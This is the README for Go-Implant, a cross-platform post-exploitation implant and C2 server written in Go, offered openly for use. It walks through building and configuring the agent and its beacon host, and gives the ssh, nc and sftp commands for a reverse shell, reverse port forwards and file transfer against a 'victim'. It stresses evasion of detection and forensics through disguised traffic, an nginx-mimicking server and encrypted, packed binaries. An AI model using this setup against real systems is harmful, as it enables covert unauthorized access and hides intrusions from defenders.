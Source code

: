 # Go-Implant
Go-Implant is a cross-platform post-exploitation agent written in Go. It consists of a server and a client (or agent). The agent beacons to the server periodically using http POST requests. As a reply to the beacon, the server returns list of commands to execute on the client. Built-in commands include port forwards, reverse shell and configuration changes.

To make detection and forensics harder:
- All communications in Go-Implant are encrypted and look 'normal' in traffic analysis. Beacons by default use HTTPS, while reverse shells and port forwards use SSH tunnels.
- The http server looks like a default installation of nginx to others than the agent.
- All sensitive strings inside the agent binary, such as configuration, are AES encrypted using random key.
- Agent configuration is flexible, user can choose for example beacon interval, user agent of beacons and beacon endpoints. 


### Note
Go-Implant is not a tool for committing crime. There is no functionality for criminal activities inbuilt to it, nor will it be added. This means for example that there is no persistence or modules for stealing credentials from systems.
The Author is not responsible of anything you use go-implant for.


## Why?
Because no long-deployable, cross-platform, flexible reverse shell with only basic functionality and standard protocols was found. Go-Implant is an attempt to create one.


## Features
- Encrypted communications
- Reverse shell access
- upload / download files
- Reverse port forwarding


## Installation
```
apt install -y git make upx strip
git clone <repo name>
cd <repo name>
make deps
```


## Compilation
Both client and server of Go-Implant are standalone executables that need to be compiled. Server has only been tested to compile and work on linux. Client has been tested to compile on Linux, and work on Linux and Windows.

### Server
1. Compile the server:
```
make prod
```

### Client
1. Set configuration in /client/config/parameters.go
2. Remove //build +ignore tag from client/config/parameters.go
3. Run `go generate` in /client/config directory
4. Add //build +ignore tag back to client/config/parameters.go
3. Compile the client for all platforms (in cmd/client): `make prod`

The makefile compiles the client for all platforms, strips symbols from the executables and finally packs them using upx.
As of writing mac executables are not stripped.
NOTE: makefile assumes commands upx and strip are available

### Debug builds
Should anything not work as expected, debugging builds are available of both server and client. These build include debugging symbols, a ton of printouts to tracks the activities of the program and omit compressing the resulting binaries. Debugging builds are trivial to reverse-engineer and therefore should not be used in production.

To compile debugging build, use command:
```
make debug
```
for both client and the server.

#### Configuration
The following parameters are freely configurable by the user in /client/config/parameters.go:

Sleeptime (int) - the time slept between beacons in seconds
Jitter (int) - random extra delay to be added to the sleeptime
Retries (int) - amount of tries to take in case C2 is unreachable
UserAgent (string) - the user agent that gets sent on beacons
CCHost (string) - the base server url
Endpoints (string[]) - the endpoints in the server to which beacon. They are chosen randomly


## Usage

### Server

You should get a SSL certificate and corresponding private key from Lets encrypt for best results. The agent will not trust self-signed certificates unless the root certificate has been installed first.

```
Usage of ./server:
  -cert string
    	file with https cert (default "server.crt")
  -forwarded-timeout duration
    	forwarded-tcpip timeout (default 3h0m0s)
  -handlerport int
    	port of HTTP* listener (default 443)
  -http
    	use HTTP instead of HTTPS
  -main-timeout duration
    	Client socket timeout (default 3h0m0s)
  -privkey string
    	file with private key for cert (default "server.key")
  -sshport int
    	port of SSH listener (default 22)
```

#### examples
```
./server -handlerport 8080 -sshport 2222
./server -cert othercert.crt -privkey otherkey.key
./server -forwarded-timeout 0h10m0s
```


## Reverse shell and file access

Reverse shell access works as follows: The client starts a sshd listening on localhost and then initializes a reverse port forward to the server. The sshd on the client can then be accessed from the server using the forwarded port. There are commands quickssh and serveSSH on the server that start the reverse shell. quickssh uses the inbuilt sshd on the Go-Implant server to catch the port forward, serveSSH enables the usage any normal sshd for the purpose. 

NOTE: in order for the client to be able to forward port to the host, it needs to have valid SSH credentials. One must make sure that the credentials cannot be used to obtain a shell to the server when using normal sshd. In the inbuilt SSH, only reverse port forwards are allowed by clients.

Filesystem access is done using sftp.

### Unix (linux or mac):
After forwarding port from the client to server, just SSH in using the generated credentials.
```
ssh <username>@localhost -p <port>
```

### Windows:
After forwarding port from the client to server, forward another port from the client machine using the client's sshd to localhost, then connect to the forwarded port using netcat
```
ssh -N -L <localport>:0.0.0.0:<destport> localhost -p <port>
nc localhost <localport>
```

NOTE: right now destport is not used! The remote host 0.0.0.0 is a magic string that tells the agent to serve a cmd shell to the client.

### Uploading / Downloading files with sftp (both windows and unix)
After forwarding port from the client to server, you can access the filesystem using sftp.
```
sftp -P <port> <username>@localhost`
```

## Port forwarding

Local ssh listener in the server allows at most 5 reverse port forwards from the victim.

### Windows:
On windows, ports can be forwarded but no shell can be launched at the same time, therefore flag -N must be used. Omitting the flag causes the client to serve sftp instead
```
ssh -N -L <localport>:<desthost>:<destport> localhost -p <port>
```

### Unix (linux or mac):
On linux, ports can be forwarded similarly with the familiar sshd
```
ssh [-N] -L <localport>:<desthost>:<destport> localhost -p <port>
```


## Features for future releases
- add x11 forwarding to unix ssh handler
- encrypt protocol strings


## Contributing
Contributions are more than welcome! Please submit your well tested code as a pull request. Writing documentation is also encouraged.
